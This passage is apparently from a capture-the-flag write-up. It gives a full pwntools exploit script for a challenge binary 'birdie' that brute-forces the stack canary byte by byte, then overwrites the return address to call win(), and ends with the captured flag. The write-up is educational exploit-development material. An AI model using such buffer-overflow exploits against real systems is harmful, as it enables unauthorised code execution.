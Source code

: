 <br>

## Exploitation!
---

Now, we can put together all our pieces to exploit the program. As soon as we can find our canary, we can easily overwrite the return address with `win()` and get the flag.  

```py
from pwn import *
with context.quiet:
    context.binary = elf = ELF('birdie')
    #p = remote('140.238.222.141', 42000)
    p = process('./birdie')

payload = cyclic(40)
canary = b''
print("")
splash()
print("")

#: STAGE1
with log.progress("brute forcing canary") as pro:
    while True:
        for i in [i.to_bytes(1, 'big') for i in range(0xff)]:
            if i == b'\n': continue
            p.sendline(payload + canary + i)
            p.recvuntil(b'WRONG!\n')
            receive = p.recvuntil(b'Please enter the password: ')
            pro.status(f" {len(canary)}/8 - {canary + i}")
            if b'SQUAWK' in receive:
                pass
            else:
                canary += i
                break
        if len(canary)==8:
            break
    log.success(f'Canary is {canary} of length {len(canary)}')

#: STAGE2
p.sendline(flat({ 40:canary, 56: p64(elf.sym.win) }))
p.recvline()
log.success(f'flag is {p.recvline().strip()}')
```

Let's watch this in action!


<script id="asciicast-kAmjXGbTycEhAap6tOO7NZFLl" src="https://asciinema.org/a/kAmjXGbTycEhAap6tOO7NZFLl.js" async></script>

```
ictf{d0nt_$m@sh_m3_1ll_s1ng_l1k3_@_can@ry!}
```
